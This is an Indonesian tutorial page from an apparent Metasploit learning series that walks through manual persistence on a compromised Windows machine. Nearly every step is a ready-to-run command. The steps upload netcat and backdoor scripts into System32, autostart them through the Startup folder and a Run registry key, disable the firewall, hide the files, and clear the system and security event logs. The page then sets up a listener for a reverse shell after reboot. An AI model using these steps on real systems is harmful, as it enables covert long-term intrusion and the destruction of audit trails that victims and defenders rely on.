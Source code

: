 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Eksploitasi%20dengan%20Metasploit%20%2B%20Social%20Engineering%20Toolkit%20(SET).md">Eksploitasi dengan Metasploit + Social Engineering Toolkit (SET)</a>
</p>

# Teknik Persistence pada Target

## A. Apa Itu Persistence?

[Persistence](https://www.offsec.com/metasploit-unleashed/persistent-backdoors/) adalah teknik yang digunakan oleh seorang penyerang untuk memastikan akses terus terjaga pada mesin target meskipun sistem direboot atau pengguna melakukan logout. Pada dasarnya, teknik ini akan memastikan bahwa payload atau backdoor tetap berjalan dan dapat diakses kembali pada sesi mendatang.

## B. Teknik Persistence Manual di Windows

Berikut ini adalah langkah-langkah untuk membuat persistence di mesin target (Windows) secara manual:

### 1. Upload Semua Backdoor

   Setelah berhasil masuk ke Meterpreter dari Metasploit, upload semua bakdoor yang ada di folder `backdoor` ke target mesin.

   1. Backdoor `nc.exe`:

      ```
      upload nc.exe C:\\Windows\\System32\\nc.exe
      ```

   2. Backdoor `backdoor.bat`:

      > Pada backdoor `backdoor.bat` ubah IP Address nya sesuai dengan IP Address yang kamu punya.

      ```
      upload backdoor.bat C:\\Windows\\System32\\backdoor.bat
      ```

   3. Backdoor `backdoor.vbs`:

      ```
      upload backdoor.vbs C:\\Windows\\System32\\backdoor.vbs
      ```
      
### 2. Salin Backdoor `backdoor.vbs` ke Folder Startup

> Pada bagian ini sampai ke Hapus Log, di meterpreter metasploit ketikkan shell untuk masuk ke CMD target mesin.

```
copy C:\Windows\System32\backdoor.vbs "C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```

Ganti <USERNAME> dengan nama user yang ada pada target.

### 3. Tambahkan ke Registry

```
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\Windows\System32\backdoor.vbs" /f
```

### 4. Matikan Firewall

```
netsh advfirewall set allprofiles state off
```

###  5. Sembunyukan File

```
attrib +h C:\Windows\System32\nc.exe
attrib +h C:\Windows\System32\backdoor.bat
```
### 6. Hapus Log

```
wevtutil cl system
wevtutil cl security
```

### 7. Siapkan Listener

```
nc -lvp 4444
```

Saat sistem target dinyalakan atau direstart, akses CMD dari sistem target akan diperoleh secara otomatis.



<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Eksploitasi%20Otomatis%20dengan%20AutoPwn.md">Eksploitasi Otomatis dengan AutoPwn</a>
</p>
